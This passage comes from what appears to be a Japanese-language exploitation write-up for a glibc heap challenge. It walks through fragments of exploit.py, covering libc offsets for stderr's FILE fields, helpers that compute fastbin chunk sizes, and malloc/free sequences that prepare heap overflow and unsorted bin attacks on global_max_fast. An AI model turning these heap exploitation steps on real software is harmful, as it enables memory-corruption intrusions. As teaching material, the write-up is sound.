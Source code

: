 ```python: exploit.py#L20
_IO_buf_base        = stderr + 0x38
_IO_buf_end         = stderr + 0x40
vtable              = stderr + 0xd8
_allocate_buffer    = stderr + 0xe0
global_max_fast     = 0x3ed940
```
さらに以下のような関数を定義しておく。これは2章で説明したfastbinによる書き込みの際に使用する。size_chunkで0x21を足しているのはPREV_INUSEフラグを立てるためである。
```python: exploit.py#L36
# 指定された(libc_baseからの相対)アドレスにchunkを繋げるためのサイズを返す
def size_chunk(addr: hex) -> bytes:
    return pack((addr - fastbinsY) * 2 + 0x21)

# 指定された(libc_baseからの相対)アドレスにchunkを繋げるためにmallocするべきサイズを返す
def size_malloc(addr: hex) -> hex:
    return (addr - fastbinsY) * 2 + 0x10
```
次にunsorted bin attackで使用するchunkを確保する。後でchunkBをunsorted binに繋ぎ、chunkAのheap overflowによってchunkB.bkを&global_max_fast - 0x10に書き変える。chunkCはchunkBをfreeした際にtop chunkと結合されるのを防ぐために確保している。
```python: exploit.py#L44
malloc('A', 0x10)
malloc('B', 0x410)
malloc('C', 0x10)
```
続いて以下のような処理を行う。
```python:#L48
for addr in [
    _flags,
    _IO_write_ptr,
    _IO_buf_base,
    _IO_buf_end,
    vtable,
    _allocate_buffer,
    __more_core,
    global_max_fast-0x8,
    global_max_fast+0x8
]:
    malloc('D', size_malloc(addr))
    free('D')
malloc('D', 0x10)

for addr in [
    _IO_buf_end,
    _allocate_buffer,
    __more_core
]:
    malloc('E', size_malloc(addr))
    free('E')
malloc('E', 0x10)
```
この部分は説明が必要である。後でstderrを改竄するときに2章で説明したfastbinによる値の書き込みを行う。アドレスpにchunkを登録するためにはchunkのサイズを上のsize_malloc関数で計算される値にしてfreeする必要があった。このサイズのchunkを実際にmallocで確保してfreeしてもいいがこれは面倒くさい。なぜならサイズはとても大きな値になるし、確保するサイズが様々なのでheapの状態を把握するのが困難になり、offsetの計算が面倒くさくなるからである。そこで0x20バイトのchunkD, chunkEを使いまわすことを考える。heap overflowが行えるのでchunkD, chunkEのmchunk_sizeを改竄することで0x20バイトのchunkをあたかもそのサイズのchunkかのように扱わせるわけである。これをする場合に必要なのが上の処理である。1章の説明を思い出してほしい。fastbinにchunkを登録した後、以下のような処理があった。
```c: malloc/malloc.c#L4283
 nextsize = chunksize(nextchunk);
    if (__builtin_expect (chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
	|| __builtin_expect (nextsize >= av->system_mem, 0))
      malloc_printerr ("free(): invalid next size (normal)");
```
ここではheap上の次のchunkのサイズが正常かどうかチェックが行われる。普通にmalloc-freeする場合この条件は満たされるが、mchunk_sizeを改竄して使っているのでheap上の次のchunkのmchunk_sizeにあたる位置に正常な値がある保証はない。そこで上では後に確保するサイズのmalloc-freeを行うことでheap上の次のchunkのmchunk_sizeにあたる位置にtop chunkのサイズを書き込んでいる。chunkはfree時にtop chunkと結合されるのでこの処理の前後でheapの状態が変わることはない。サイズの書き込みを行った後chunkE,chunkDを確保している。続いて以下の部分でchunkFをlarge binに登録している。chunkFをlarge binに登録するには一度freeしてunsorted binに登録し、それよりも大きなサイズをmallocする必要がある。chunkFをどう使うかは後で説明する。